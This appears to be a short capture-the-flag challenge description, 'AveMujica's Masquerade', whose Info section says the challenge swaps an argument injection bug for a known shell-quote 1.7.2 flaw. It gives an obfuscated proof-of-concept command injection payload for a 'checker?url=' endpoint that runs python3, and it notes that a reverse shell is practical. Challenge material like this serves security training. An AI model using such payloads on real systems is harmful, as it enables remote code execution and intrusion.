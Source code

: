 # AveMujica's Masquerade

## Description
...  

## Info
"Fixed" the argument injection vulnerability. But introduced CVE-2023-30589 in `shell-quote@1.7.2`.  
PoC: `checker?url=1:`:`python3$IFS-c$IFS\\open(chr(8%2B48),chr(22%2B97)).write(chr(95))``:%23`
RCE is available, and Python can be used for advanced post-exploitation.

---

Unexpected: the net is NOT an intranet actually. Reverse shell is practical.